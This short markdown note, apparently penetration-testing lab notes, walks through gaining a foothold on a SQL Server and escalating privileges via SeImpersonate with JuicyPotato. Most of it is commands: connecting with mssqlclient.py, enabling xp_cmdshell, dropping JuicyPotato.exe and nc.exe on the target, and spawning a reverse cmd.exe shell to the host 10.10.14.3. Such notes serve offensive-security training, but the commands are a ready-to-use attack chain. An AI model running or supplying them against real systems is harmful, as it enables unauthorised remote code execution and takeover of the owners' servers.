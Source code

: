 # SeImpersonate Example - JuicyPotato

Gaining foothold on SQL Server using privileged SQL user.

- Achieve RCE using `xp_cmdshell` using creds from `logins.sql`
- Connect with MSSQLClient.py
```bash
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

- Enabling xp_cmdshell
- `xp_cmdshell whoami /priv`
- Drop JuicyPotato.exe and nc.exe onto the target
```
xp_cmdshell c:\tools\Juicypotato.exe -l 53375 c:\windows\system32\cmd.exe 
    -a "/c c:\tools\nc.exe 10.10.14.3 -e cmd.exe" -t *
```

